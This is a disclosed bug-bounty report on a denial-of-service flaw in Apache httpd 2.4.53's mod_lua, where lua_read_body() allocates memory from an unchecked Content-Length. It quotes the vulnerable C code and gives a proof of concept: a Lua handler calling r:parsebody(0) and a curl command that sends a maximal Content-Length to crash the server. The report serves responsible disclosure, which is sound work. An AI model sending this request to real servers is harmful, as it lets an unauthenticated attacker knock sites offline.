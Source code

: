 # DoS via lua_read_body() [zhbug_httpd_94]

## Report Details
- **Report ID**: 1596252
- **URL**: https://hackerone.com/reports/1596252
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-06-09T20:12:04.044Z
- **Disclosed**: 2022-07-09T20:19:39.520Z

## Reporter
- **Username**: tdp3kel9g
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Greetings. I have found a bug that can crash httpd 2.4.53, causing a denial of service.

The bug is that lua_read_body() (modules/lua/lua_request.c) uses the value of the `Content-Length` header to allocate memory. While ap_read_request() limits `Content-Length`'s value to a non-negative |apr_off_t| via a call to ap_parse_strict_length(), if the LUA programmer uses r:parsebody() without specifying a limit, as in:
```
   r:parsebody(0)
```
, lua_read_body() attempts to allocate `Content-Length + 1` bytes (line 255, below). This causes an OOM abort, which crashes httpd:
```
233: static int lua_read_body(request_rec *r, const char **rbuf, apr_off_t *size,
234:         apr_off_t maxsize)
235: {
236:     int rc = OK;
237:
238:     *rbuf = NULL;
239:     *size = 0;
240:
241:     if ((rc = ap_setup_client_block(r, REQUEST_CHUNKED_ERROR))) {
242:         return (rc);
243:     }
244:     if (ap_should_client_block(r)) {
245:
246:         /*~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~*/
247:         apr_off_t    len_read = -1;
248:         apr_off_t    rpos = 0;
249:         apr_off_t length = r->remaining;
250:         /*~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~*/
251:
252:         if (maxsize != 0 && length > maxsize) {
253:             return APR_EINCOMPLETE; /* Only room for incomplete data chunk */
254:         }
255:         *rbuf = (const char *) apr_pcalloc(r->pool, (apr_size_t) (length + 1));
...
271: }
```
The bug appears still to be present in trunk.

Attached is a POC that demonstrates the bug. Use the POC thusly:

   1. Copy bug94.lua into /bug94/bug94.lua .
   2. Enable LUA.
   3. Run httpd and attach a debugger to it.
   4. Set a BP on lua_read_body() line 249.
   5. Run the command
```
      curl -v -i -H "Content-Type: multipart/form-data; boundary=badbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadbbadbadbadb" -H "Content-Length: 9223372036854775807" -X POST -k http://127.0.0.1/bug94/bug94.lua
```
   which sends the bad header to httpd.

   6. When the BP fires, step line 249 and examine |length|. It should be `0x7fffffffffffffff` .
   7. Now step into apr_palloc(). Notice that |size| is `0x8000000000000000`. Step over the call to allocator_alloc(), which should return NULL. Then notice that apr_palloc() calls |pool->abortfn()|, which is abort_on_oom() (server/main.c). That, in turn, calls ap_abort_on_oom(), which calls the C library function abort(), crashing the httpd process.

```
-------- bug94.lua ----------------------------------------------------
function handle(r)
    local s = r:parsebody(0)
end
-------- bug94.lua ----------------------------------------------------
```

## Impact

This bug permits a remote unauthenticated attacker to crash httpd. In mitigation, the victim site must run an LUA program including a call to `r:parsebody(0)`.

## Attachments
No attachments
